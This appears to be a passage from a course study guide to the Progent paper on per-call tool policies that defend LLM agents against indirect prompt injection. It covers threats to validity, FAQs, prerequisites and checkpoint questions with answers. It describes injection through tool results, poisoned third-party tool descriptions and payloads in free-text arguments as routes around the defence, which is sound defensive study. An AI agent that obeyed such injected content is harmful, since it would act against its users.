- **The writer trusts its inputs.** Tool definitions and the query are treated as trusted at initialisation. Third-party MCP tool descriptions are not (guide inference); the benchmark's tools are authored by the benchmark.
- **The check step is not fully insulated.** It sees the call just made, which came from an agent that may be under injection influence, so attacker-chosen arguments reach that prompt (guide inference). The solver still guards the outcome.
- **Attacks match the design.** AgentDojo and ASB inject through tool results, the case addressed; only Appendix E targets the update step.
- **Auto-Approve hides the gate**, as noted.
- **Benign user and trusted query (Section 3.2).** Multi-turn tasks where later turns follow attacker-influenced content are untested.
- **No uncertainty reporting**, so 0.7 versus 1.0 cannot be interpreted.
- **No small or open writer**, central for local deployments.


### Open problems and follow-ups

- Content as well as calls: the paper suggests restricting tools from reading malicious data or filtering outputs (Section 9); [CaMeL](./45-camel-prompt-injection-by-design.md) takes the data-flow route.
- Binding task policy to token scopes and server audience checks.
- Joining per-call rules to action-level governance ([AARM](./46-aarm.md)).

### What would change my mind

- A study with independent attackers and real approvers measuring expansion approval error, the part the paper simulates.
- Run counts showing Auto-Deny, Disable Update and Auto-Approve ASR are indistinguishable, which would suggest the solver is mainly a safety net.
- A small open model as writer with ASR above 10% (limits the local recommendation) or below 5% (supports it).


## Reading map for the PDF

| Section or figure | What it contains | First pass | Guide section that answers its questions |
|---|---|---|---|
| Abstract, 1 | Claim, challenges, headline numbers | Read | Read this first |
| 2, Figure 1 | The email run, P1 to P5 | Read | The paper in one worked example |
| 4.1, Figure 2 | Rule grammar | Read | The design in concrete terms |
| 4.2, Algorithm 2 | The check | Read | A minimal version |
| 4.3 | Equations 1 to 4, solver reduction | Skim | Formal setup, Prerequisite 3 |
| 5, Algorithm 3 | Loop, update, trust split | Read | How it works, step by step |
| 6 | Equations 5 and 6 | Read | The claims, stated precisely |
| 7 | JSON Schema, Z3, modes, generic policies, approver | Read | The design in concrete terms |
| 8.1, Figures 3 and 4 | Main results | Read | What the results say |
| 8.2, Figures 5 to 7 | Ablations | Read | Evidence, table by table |
| 9 | User mistakes, scope, multimodal | Read | What this does not show |
| Appendices C, D | Sample policy; checkpoints, exclusions, reviewer assumption | Read | The paper in one worked example; Threats to validity |
| Appendices F, G | Integration code; prompts | Skim | The design in concrete terms |

## Questions readers get stuck on

### Is the language model deciding which calls are allowed?

No, and that is the central design point. The model writes and updates the rules; plain code applies them to each call. A fooled writer can propose a bad rule, but one that widens the allowed set is held for approval, so the model never decides an individual call.

### If the model writes the policy, why trust it at all?

The first policy is written from the query and tool list, which the threat model treats as trusted (Section 5). That is true when tool descriptions are yours and the user typed the query. It is weaker when descriptions come from third-party servers or the query was assembled from earlier tool output, which is where this guide would push hardest.

### What exactly does the solver check, and why a solver?

That nothing is newly allowed: for all argument values, allowed by the new policy implies allowed by the old. With rules written as logical conditions over numbers, strings and lists, a solver answers exactly or returns a call allowed only by the new policy. A text diff cannot, because different-looking rule sets can allow the same calls and similar-looking ones different calls.

### Why does a 1.0% ASR not prove the gate works?

That setting approves every expansion (Section 8.1), so the gate refused nothing. The 1.0% comes from the model-written rules. The gate's own effect appears in Figure 5 as 0.7 versus 1.0 ASR and 67.0 versus 76.3 utility, differences too small or too uncertain, without run counts, to read confidently.

### Is a drop from 39.9 to 1.0 a drop of 38.9 percent?

No. It is 38.9 percentage points: from about 40 successes per 100 attacks to about 1. As a share of the original rate it is a 97.5% reduction. The same care applies to utility: 79.4 to 76.3 is 3.1 points, a relative loss of about 3.9%.

### How is this different from OAuth scopes or a gateway's tool allow-list?

A scope is a coarse label on a whole token, such as permission to send email. Progent's rules are per task and per argument value: send only to alice, read only 20. Scopes and gateways know who is calling; Progent does not. They stack, as Prerequisite 4 shows.

### Can I run this with a local model and no API?

Enforcement and solving need no model. Policy writing does, and the paper tested only hosted writers (gpt-4o, claude-sonnet-4, gemini-2.5-flash, gpt-4.1); Meta-SecAlign-70B, open-weights, appears only as an agent. So there is no evidence for a local writer, and a local deployment should measure it first.

### Where does proxy mode fit if I use MCP?

Proxy mode is a drop-in program between the agent and its MCP servers and LLM endpoint, applying the same engine with no agent changes. It cannot see built-in tools that bypass MCP (Section 9); library mode runs inside the runtime and sees every tool.

## Prerequisites you actually need

### Prerequisite 1 - Indirect prompt injection and the two numbers

Utility is tasks completed divided by tasks attempted; ASR is attacks that reached their goal divided by attacks attempted.

Tiny example: 80 of 200 attacks succeed, ASR 40%; after a defence 2 succeed, ASR 1%: a drop of 39 points, a relative reduction of 97.5%.

Used in: every figure of Section 8. Pointers: [Prompt-to-SQL injection](../07-data-agents/39-prompt-to-sql-injection.md); [AgentDojo](./47-agentdojo.md).

### Prerequisite 2 - Least privilege and default deny

Give a program only the permissions it needs and treat anything unlisted as forbidden. An allow-list is safer than a block-list because a new danger is blocked automatically.

Tiny example: allow-list {read_emails with recent equal 20}; `read_emails(recent=500)` matches nothing and is denied.

Used in: Section 2.2, Algorithm 2, P1 to P5. Pointers: [CodeAct](../06-agent-systems/25-codeact.md) (sandbox section), [Dive into Claude Code](../06-agent-systems/28-dive-into-claude-code.md).

### Prerequisite 3 - Subset test as a search for a counterexample

To show set X lies inside set Y, show no element is in X and outside Y. A solver searches for such an element; finding none is the proof.

Tiny example: X = integers 1 to 5, Y = integers 1 to 20: no n in X is outside Y, so X is inside Y. With X = 1 to 50, n = 30 is a counterexample.

Used in: Section 4.3, Equation 4, Algorithm 3. Pointer: the Z3 documentation (De Moura and Bjorner, 2008, cited by the paper).

### Prerequisite 4 - Scopes and audiences versus argument-level policy

OAuth issues a token with scopes for an audience; a gateway or server checks it. That says who is calling and for what kind of action, not "only to alice" or "only 20 emails".

Tiny example: a token has scope "mail.send" for audience "mail-mcp" and so authorises any recipient. A Progent rule adds "recipient equals alice" for this task. The token cannot exceed what the user may do, and the rule cannot exceed what the task needs.

Used in: Adopt, adapt or skip; the paper never discusses tokens. Pointers: [Interoperability](../04-agents-and-protocols/21-interoperability.md), [MCP auth measurement](./42-mcp-auth-measurement.md).

## Where this sits in the curriculum

**Before:** [Interoperability](../04-agents-and-protocols/21-interoperability.md), [Dive into Claude Code](../06-agent-systems/28-dive-into-claude-code.md) (the human gate that Progent partly automates), [Prompt-to-SQL injection](../07-data-agents/39-prompt-to-sql-injection.md).

**Two nearest papers.** [CaMeL](./45-camel-prompt-injection-by-design.md) also enforces deterministically, but tracks the flow of values from untrusted sources and restructures the agent around a program the model writes; Progent leaves the agent unchanged and checks the call and its arguments.

**Elsewhere in the stage.** [MCP landscape and threats](./41-mcp-landscape-threats.md) and [MCP auth measurement](./42-mcp-auth-measurement.md) cover protocol and token layers, which Progent assumes already handled; [A2ABreak](./43-a2abreak.md) and [authenticated delegation](./44-authenticated-delegation.md) cover agent-to-agent trust.

**Next:** [AgentDojo](./47-agentdojo.md), the benchmark behind the headline, then [Agent connectivity](../../../agents/connectivity/README.md).

## Checkpoint

1. Explain in two sentences why P2 to P3 in the email run needs no approval.
2. Compute the relative reduction in ASR on ASB (70.3 to 3.9) and the relative loss in no-attack utility on AgentDojo (79.4 to 76.3).
3. A team runs Progent with approve-all and reports 1.0% ASR. What was not tested?
4. P allows `read_emails` with recent at most 20; P' allows recent at most 20 or exactly 50. Is P' a narrowing? Give a counterexample if not.

<details>
<summary>Answers 1 to 4</summary>

1. P3 only removes calls P2 allowed (it binds the Slack recipient to alice) and adds none, so the solver classes it as a narrowing, which is applied automatically.
2. ASB: 66.4 / 70.3, about 94.5% reduction. AgentDojo utility: 3.1 / 79.4, about 3.9% relative loss (3.1 points).
3. Refusal was never exercised, since the gate refused nothing. Also untested: human approvers, local policy writers, malicious tool descriptions, and the read-only generic list in isolation.
4. No. recent = 50 is allowed by P' and not by P, so P' is an expansion and 50 is the counterexample.

</details>

5. The paper says manual policies "provably" bring ASB ASR to 0%. What is proved and what is not?
6. Place Progent relative to an MCP gateway in a runtime you control; which layer owns the token audience check?
7. Name three threats Progent does not cover: one from the paper, two this guide adds.

<details>
<summary>Answers 5 to 7</summary>

5. Proved: enforcement follows the rules. Not proved: that anyone would write those rules without knowing which tools are attacks. A zero on one benchmark shows the language can express the right policy, not that it will be written.
6. The task-policy engine sits in the runtime between agent and gateway (it knows the task); the gateway sits in front of the MCP servers (it knows identity). The gateway or MCP server owns the audience check, and the task policy must stay inside what the gateway allows.
7. Paper: attacks within the least-privilege set (or text-only attacks, or GUI agents). Guide: malicious third-party tool descriptions fed to the policy writer; payloads carried in free-text arguments such as a message body.

</details>
